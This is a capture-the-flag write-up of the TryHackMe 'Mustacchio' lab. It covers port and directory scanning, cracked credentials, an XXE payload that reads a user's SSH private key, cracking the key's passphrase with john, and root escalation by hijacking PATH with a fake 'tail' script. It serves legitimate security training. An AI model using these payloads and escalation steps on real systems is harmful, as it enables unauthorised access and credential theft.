 # Mustacchio

**Room Link:** [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

port 8765 found which is running nginx

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>





### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

There is a users.bak file in the custom folder

<figure><img src="../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

It's a bit messy but it appears to be a username and password hash. I put it through crackstation

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>





### TCP/8765 - HTTP

```
gobuster dir -u http://$VICTIM:8765 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
Username: admin
Password: bulldog19
```



<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

In the source code there's two interesting places to look

<figure><img src="../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

Seems like a waste but we now know the format how to submit something on the site

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could\u2019ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could\u2019ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
python /opt/john/ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
chmod 600 id_rsa
ssh -v -i id_rsa barry@$VICTIM
Password: urieljames
```

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

We find a program owned by root in joes folder. When we run strings on it we can see tail command is being ran but it is not using full path so we can exploit this.

**Victim**

```
cd /home/joe
ls -lah
strings live_log
```

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp

cat > tail << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x tail

export PATH=/tmp/:$PATH
/home/joe/live_log 
```

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>



















